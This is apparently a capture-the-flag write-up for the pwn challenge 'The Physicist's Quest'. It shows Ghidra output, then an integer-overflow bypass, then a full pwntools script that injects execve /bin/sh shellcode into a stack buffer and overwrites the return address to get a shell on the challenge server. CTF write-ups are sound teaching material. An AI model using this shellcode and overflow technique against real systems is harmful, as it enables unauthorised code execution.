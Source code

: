 +++
title = "The Physicist's Quest"
date = 2024-07-04
authors = ["Abhinav I S"]
+++

First, we run checksec on the binary

```bash
checksec --file=challenge
```

<br>
{{ img(id="image1.png", alt="Alt Text", class="textCenter") }}

NX disabled indicates we can execute from stack, hence this is likely a shellcode injection challenge.

Now, opening in a decompiler (Ghidra):

```c

undefined8 main(void)

{
  int local_70;
  int local_6c;
  undefined local_68 [92];
  uint local_c;
  
  fflush(stdout);
  puts("Hi you know my buddy");
  puts("He\'s stuck with his research on string theory");
  puts(
      "He\'s too proud to admit it, but he needs your help. But first you will need to prove that yo u are worthy enough for this"
      );
  puts("enter two magic numbers");
  __isoc99_scanf(&DAT_001020e1,&local_6c);
  __isoc99_scanf(&DAT_001020e1,&local_70);
  if ((-1 < local_6c) && (-1 < local_70)) {
    local_c = local_70 + local_6c;
    printf("Your magic value is %d\n",(ulong)local_c);
    if ((int)local_c < 0) {
      puts(
          "Good job! Now you need to figure out my location so that I can trick my friend into meeti ng you"
          );
      printf("Meet us in secrecy at %p\n",local_68);
      read(0,local_68,200);
    }
    return 0;
  }
  printf("BAZINGA! Close but not close");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

ok , if local_6c and local_70 are positive and their sum is negative, we can write into a buffer, and the address of this buffer is printed out.

The first if conditions can be achieved by [Integer Overflow](https://en.wikipedia.org/wiki/Integer_overflow).

Now, we put shellcode in the buffer and overwrite the return address with the address of the buffer (the shellcode).

We can create our solve script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./challenge")

context.binary = exe
# context.log_level = "debug"

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("rvcechalls.xyz", 29639)

    return r


def main():

    shellcode =  b"\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05"

    r = conn()
    r.recv()
    r.sendline(b"2147483645")
    r.sendline(b"10")
    data = r.recv()
    print(data.split(b" ")[-1])
    win = int(data.split(b" ")[-1], 16)
    print(hex(win))
    payload = shellcode + b"A"*(0x68-48) + p64(win)
    # good luck pwning :)
    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    main()

```

note that we need an additional  0x68-48 bytes to reach the return address since the shellcode is 48 bytes long.
Shellcode was obtained from a [Shellcode Database](https://shell-storm.org/shellcode/index.html)

Running the script spawns a shell, and we can print out the flag

<br>
{{ img(id="image2.png", alt="Alt Text", class="textCenter") }}
<br>

```
flag{Gre4t_Y0u_h3lp4d_h1m_TBBT}
```